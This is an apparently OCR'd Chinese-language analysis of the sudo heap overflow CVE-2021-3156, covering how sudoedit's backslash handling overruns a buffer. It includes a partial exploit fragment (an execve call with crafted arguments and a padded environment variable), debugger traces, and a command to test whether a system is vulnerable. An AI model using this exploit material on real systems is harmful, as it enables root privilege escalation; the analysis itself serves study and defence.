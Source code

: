 ```c
			obuf,
			NULL
		};

		char *extra_args[] = {
			"X/X\\",
			"a",
			"LC_MESSAGES=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAA",
			NULL,
		};

		execve(args[0], args, extra_args);

		// execvpe("./sudoedit", args, extra_args);

}
```

漏洞产生的代码在`plugins/sudoers/sudoers.c` 的`set_cmnd`函数
![image.png](_img/assets/1659510805764-a5b72a1b-65cf-4f56-85d5-0c0ba428f3ff.png)

首先通过 854 处，为` sudoedit -s `后的字符长度分配内存空间， 即 `user_args`, 当代码处理到 866 处的时候， 如果参数为如下结构，即
```c
pwndbg> p NewArgv[0] 
$4 = 0x55555557183e "sudoedit" 
pwndbg> p NewArgv[1] 
$5 = 0x7ffffffee13 "BBBBBB\\" 
pwndbg> p NewArgv[2] 
$6 = 0x0 
pwndbg>
```

第一次拷贝 会将 B 拷贝到` user_args `里，然后` from ++`<br />当 B 拷贝完，` from[0] == '\\'` ， 且`from[1] `不为空的时候， 此时` from ++` , 然后又进到这个 `while` 循环，` from` 后面的数据
```c
pwndbg> p from[0] 
$3 = 92 '\\' 
pwndbg> p from[1] 
$4 = 0 '\000'
```

这个时候` from `后面的数据为环境变量设置的数据, 即这里此时` from[0] 为 X/X` 。最终结果就是 `user_args `被越权。

参考链接：<br />[https://bestwing.me/CVE-2021-3156-analysis.html](https://bestwing.me/CVE-2021-3156-analysis.html)
[https://blog.csdn.net/weixin_46483787/article/details/125552056](https://blog.csdn.net/weixin_46483787/article/details/125552056)

# 0X05 漏洞复现
漏洞验证
```
sudoedit -s /
```
![image-20211104225041044.png](_img/assets/1659510075511-ae3bb23b-b0bc-42ea-8bea-f7b6adb021de.png)
报错开头以sudoedit则存在漏洞，报错以usage开头，则不受影响。
